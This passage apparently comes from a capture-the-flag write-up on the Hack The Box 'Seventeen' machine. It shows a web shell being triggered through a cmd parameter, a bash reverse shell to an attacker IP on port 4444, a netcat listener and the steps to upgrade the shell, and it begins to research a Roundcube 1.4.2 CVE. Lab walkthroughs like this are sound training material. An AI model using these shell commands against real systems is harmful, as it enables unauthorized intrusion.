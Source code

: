For example:

![image.png]({{ site.baseurl }}/assets/seventeen//image%2014.png)

Now we go:

```bash
http://oldmanagement.seventeen.htb:8000/oldmanagement/files/18940/test.php?cmd=id
```

We get:

![image.png]({{ site.baseurl }}/assets/seventeen//image%2015.png)

Now we can get a reverse shell by URL encoding the following:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.16.6/4444 0>&1'
```

Now send our GET request to repeater, change HTTP Method to POST, and URL encode the command with Ctrl+U:

![image.png]({{ site.baseurl }}/assets/seventeen//image%2016.png)

Start listener before hitting send:

```bash
nc -lnvp 4444
```

![image.png]({{ site.baseurl }}/assets/seventeen//image%2017.png)

Now to upgrade the shell:

```bash
script /dev/null -c bash
ctrl-z
stty raw -echo; fg
Enter twice
```

### Option 2:

First we find the version of roundcube. We know from the message:

![image.png]({{ site.baseurl }}/assets/seventeen//image%208.png)

the roundcube application is the newest at that time, which the file was uploaded on:

![image.png]({{ site.baseurl }}/assets/seventeen//image%2018.png)

Searching for that year and month, and roundcube version on Google, we got version 1.4.2. (Another way to find the version is searching up roundcube github and seeing that there is CHANGELOG file, visiting that dir will reveal version 1.4.2)Thereafter, searching roundcube 1.4.2 exploit got to this site https://www.cvedetails.com/version/1406193/Roundcube-Webmail-1.4.2.html

Then we found this CVE https://www.cvedetails.com/version/1406193/Roundcube-Webmail-1.4.2.html,
